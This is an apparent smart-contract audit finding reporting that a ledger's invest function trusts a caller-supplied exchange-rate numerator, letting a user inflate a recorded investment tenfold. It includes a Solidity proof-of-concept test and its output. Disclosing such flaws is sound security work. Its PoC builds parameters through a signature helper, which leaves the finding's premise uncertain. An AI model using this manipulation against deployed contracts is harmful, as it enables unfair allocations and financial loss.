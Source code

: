Ripe Ginger Starfish

High

# An attacker can manipulate exchange rate more higher than actual exchange rate

## Summary

In the `VVVVCInvestmentLedger::invest()` function, the contract relies on user-provided parameters, including `_params.exchangeRateNumerator`, to calculate the stablecoin equivalent of the user's investment. However, there is no validation on the value of `_params.exchangeRateNumerator`, which allows malicious users to manipulate this value, inflating their investment amount.

## Vulnerability detail

In `VVVVCInvestmentLedger::invest()` we know that every params are filled by a user. It affect for state in contract especially calculating `preFeeStableAmountEquivalent`. Lets see code associated : 

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L165-L166

the variable `preFeeStableAmountEquivalent` is calculated by some operations with `_params.exchangeRateNumerator`. We have an expectations that every single user fill a value of `_params.exchangeRateNumerator` honestly with actual exchange rate. But sometimes, we will meet a malicious user to pass this value more higher than actual exchange rate. Lets build an example : 
1. A malicious user want to invest to the protocol with USDC token.
2. He want to invest 1000 USDC, normally he must fill `_params.exchangeRateNumerator` with `1e6`  (assume that `exchangeRateDenominator` is `1e6`).
3. Other hand, he fills the  `_params.exchangeRateNumerator` with value `10e6`
4. As a result, the `preFeeStableAmountEquivalent` is calculated as:

   ```solidity
   preFeeStableAmountEquivalent = (1000 * 10e6) / 1e6 = 10000 USDC (stablecoin equivalent)
   ```
   This causes the user's investment to be recorded as 10,000 USDC instead of the intended 1000 USDC, inflating the user's investment by a factor of 10.

## Impact

Malicious users can manipulate `_params.exchangeRateNumerator` to inflate their investment value unfairly. This disrupts allocation accuracy, breaches round limits, and risks financial loss, undermining trust in the system.

## Poc

The function test following `VVVVCInvestmentLedgerUnitTests::testExchangeRateManipulation` : 

```solidity
function testExchangeRateManipulation() public {
        uint256 newExchangeRateNumerator = 10e6;
        uint256 newFeeNumerator = 0;

        VVVVCInvestmentLedger.InvestParams memory params = generateInvestParamsWithSignature(
            sampleInvestmentRoundIds[0],
            investmentRoundSampleLimit,
            sampleAmountsToInvest[0],
            userPaymentTokenDefaultAllocation,
            newExchangeRateNumerator, 
            newFeeNumerator,
            sampleKycAddress,
            activeRoundStartTimestamp,
            activeRoundEndTimestamp
        );
        investAsUser(sampleUser, params);
        uint256 userInvested = LedgerInstance.kycAddressInvestedPerRound(
            sampleKycAddress,
            sampleInvestmentRoundIds[0]
        );

        assertNotEq(PaymentTokenInstance.balanceOf(address(LedgerInstance)), userInvested);

        console.log("Balance of ledger in USDC : ", PaymentTokenInstance.balanceOf(address(LedgerInstance)));
        console.log("Total user invested : ", userInvested);
    }
```
   
output : 
   
```bash
Ran 1 test for test/vc/VVVVCInvestmentLedger.unit.t.sol:VVVVCInvestmentLedgerUnitTests
[PASS] testExchangeRateManipulation() (gas: 158762)
Logs:
  Balance of ledger in USDC :  1000000000
  Total user invested :  10000000000
```